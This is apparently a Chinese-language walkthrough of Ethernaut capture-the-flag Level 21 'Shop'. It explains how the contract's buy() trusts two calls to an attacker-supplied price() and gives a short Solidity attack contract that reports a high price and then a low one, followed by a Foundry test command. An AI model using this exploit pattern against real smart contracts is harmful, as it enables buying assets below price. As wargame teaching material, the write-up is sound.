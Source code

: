 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/21-shop.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 21 - Shop</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 21 - Shop](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标
目的是使 price 小于 100。和 Elevator 类似，只要使两次调用 price 得到的值不一样就可以了
<img src="../imgs/requirements/21-shop-requirements.webp" width="800px"/>

## 漏洞

我们先看一下 `buy()` 函数的内容:

```javascript
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
}
```
只有`price()`大于或者等于当前的price时，才能buy成功。然而, `price()` 函数是需要我们自己去实现，这就留给了我们操作的空间，你觉得应该怎样实现它呢？

我们可以参考 [11 - Elevator](../solutions/11_Elevator.md). 我们传教一个合约，实现`Buyer`接口，实现`price()` 函数。

`price()`被调用了两次。我们只需要第一次返回一个满足条件的值，第二次再返回一个新值就可以了。所以要想通关，`!sold` 必须时false ， `price` 第一次返回值，大于100, 然后 `!sold` 变成true， `price` 第二次返回值，就可以随意设置了. 

## 解答

攻击合约实现

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IShop {
    function isSold() external view returns (bool);

    function buy() external;
}

contract Discount {
    IShop shop;

    constructor(address _shop) {
        shop = IShop(_shop);
    }

    function price() public view returns (uint256) {
        return shop.isSold() ? 1 : 101;
    }

    function attack() public {
        shop.buy();
    }
}
```

你可以在项目的根目录执行以下命令，进行验证：

```bash
forge test --match-contract  ShopTest  -vvvvv
```


## 要点

- Don't change the state based on external and untrusted contracts logic.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
